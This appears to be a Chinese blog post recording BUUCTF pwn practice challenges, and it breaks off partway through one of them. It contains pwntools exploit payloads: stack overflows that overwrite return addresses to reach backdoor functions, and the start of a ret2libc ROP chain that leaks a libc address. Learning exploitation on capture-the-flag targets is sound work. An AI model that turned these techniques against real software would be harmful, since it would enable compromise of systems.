 ```yaml
---
title: BUUCTF Pwn 练习记录
date: 2019-12-14 21:46:20
tags:
  - 整数溢出
  - 栈漏洞
  - fsb
  - 堆漏洞
categories:
  - 二进制安全
---
```


从今天起，我也是 Pwn 🐕 了。



## Part I

### test_your_nc

nc 直接连，`cat flag`。

### rip

栈溢出，可直接覆盖返回地址，注意 64 位：

```python
payload = 'a'*(0xf+8) + p64(elf.symbols['fun'])
s(payload)
```

### warmup_csaw_2016

和上题其实一样，程序中存在后门，直接返回过去。

```python
payload = 'a'*(0x40+8) + p64(0x40060d)
s(payload)
```

### pwn1_sctf_2016

直接运行几次或者源码审计可以发现是将输入的 `I` 替换为 `you`，其余的其实和上面一样：

```python
payload = 'I'*(0x3c // 3)+'a'*4+p32(elf.symbols['get_flag'])
sl(payload)
```

### ciscn_2019_c_1

开启了 NX 保护，并且有未限制长度的 `gets`，基本上可以确定是 ROP 栈溢出。IDA 搜一下 string，可以发现有 libc 可以用，考虑 ret2libc。

```python
pop_rdi = 0x400c83

def send(payload):
    ru('!\n')
    sl('1')
    ru('ed\n')
    sl(payload)

payload = flat('a'*0x58,pop_rdi,elf.got['__libc_start_main'],elf.plt['puts'],elf.sym['main'])
send(payload)

ru('@\n')
```